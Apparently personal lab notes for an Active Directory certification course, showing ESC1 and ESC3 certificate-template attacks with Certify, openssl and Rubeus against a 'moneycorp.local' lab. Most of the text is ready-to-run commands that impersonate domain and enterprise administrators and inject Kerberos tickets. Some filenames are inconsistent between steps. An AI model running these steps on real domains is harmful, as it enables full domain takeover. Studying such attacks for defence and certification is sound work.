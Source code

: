 We can use the Certify tool (https://github.com/GhostPack/Certify) to enumerate (and for other attacks) AD CS in the target forest

```powershell
.\Certify.exe cas
```

Enumerate templates
```powershell
.\Certify.exe find
```

Enumerate vulnerable templates
> **Note:** This will only show us templates where normal users have enrolment rights to it
```powershell
.\Certify.exe find /vulnerable
```

### ESC3 example
##### Enterprise Administrator 

> **Note:** Difference between DA and EA is we specify the domain of the forest root for EA

Request a certificate for a certificate template (example: `SmartCardEnrollment-Agent`)
```powershell
.\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Agent
```

Convert from `cert.pem` to `esc3.pfx` 
```powershell
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc3.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc3-DA.pfx
```

Convert from `cert.pem` to pfx (`esc3agent.pfx` below) and use it to request a certificate on behalf of EA using the `SmartCardEnrollment-Users` template
```powershell
.\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:moneycorp.local\administrator /enrollcert:esc3.pfx /enrollcertpw:Pwned123!
```


Request EA TGT and inject it
```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgt /user:moneycorp.local\administrator /certificate:esc3user.pfx /dc:mcorp-dc.moneycorp.local /password:SecretPass@123 /ptt
```
##### Domain Administrator
Request a certificate for a certificate template (example: `SmartCardEnrollment-Agent`)
```powershell
.\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Agent
```

Convert from `cert.pem` to pfx (`esc3agent.pfx` below) and use it to request a certificate on behalf of DA using the `SmartCardEnrollment-Users` template.
```powershell
.\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Users /onbehalfof:dcorp\administrator /enrollcert:esc3agent.pfx /enrollcertpw:SecretPass@123
```

Convert from `cert.pem` to pfx (`esc3user-DA.pfx` below), request DA TGT and inject it
```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgt /user:administrator /certificate:esc3user-DA.pfx /password:SecretPass@123 /ptt
```

### ESC1 example
Check for templates that has the value of `ENROLLEE_SUPPLIES_SUBJECT ` for `msPKI-Certificates-Name-Flag`
```powershell
.\Certify.exe find /enrolleeSuppliesSubject
```

The template `HTTPSCertificates` allows enrolment to the RDPUsers group. Request
a certificate for DA (or EA) as a regular user
```powershell
.\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator
```

Convert from `cert.pem` to `esc1.pfx` and specify export password
```powershell
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-DA.pfx
```

Request a TGT for DA (or EA)
```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgt /user:administrator /certificate:esc1.pfx /password:Pwned123! /ptt
```